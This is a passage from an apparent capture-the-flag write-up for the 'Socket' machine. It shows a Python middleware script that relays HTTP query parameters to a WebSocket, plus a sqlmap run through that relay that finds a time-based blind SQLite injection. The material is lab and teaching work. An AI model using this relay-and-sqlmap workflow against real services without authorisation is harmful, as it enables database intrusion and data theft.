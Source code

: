 ```python

    return message if not None else ""

def middleware_server(host_port, content_type="text/plain"):
    class CustomHandler(SimpleHTTPRequestHandler):
        def do_GET(self) -> None:
            self.send_response(200)
            try:
                payload = urlparse(self.path).query.split("=", 1)[1]
            except IndexError:
                payload = False

            if payload:
                content = send_ws(payload)
            else:
                content = "No parameters specified!"

            self.send_header("Content-type", content_type)
            self.end_headers()
            self.wfile.write(content.encode())
            return

    class _TCPServer(TCPServer):
        allow_reuse_address = True

    httpd = _TCPServer(host_port, CustomHandler)
    httpd.serve_forever()

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?version=*")

try:
    middleware_server(("0.0.0.0", 8081))
except KeyboardInterrupt:
    pass
```

And now, I can start the proxy server with:

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket/scripts]
└─$ python ws.py                                                                                                                                                                                                                 1 ⨯
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?version=*import json
```

After that, I can point `sqlmap` to my local endpoint and let it reveal any SQLi vulnerabilities:

```bash
┌──(nickvd㉿kali)-[~/Boxes/Socket]
└─$ sqlmap -u 'http://localhost:8081?version=1' --batch --dbs --level 5 --risk 3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.7#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<..snip..>

[18:13:51] [INFO] GET parameter 'version' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
[18:13:51] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
```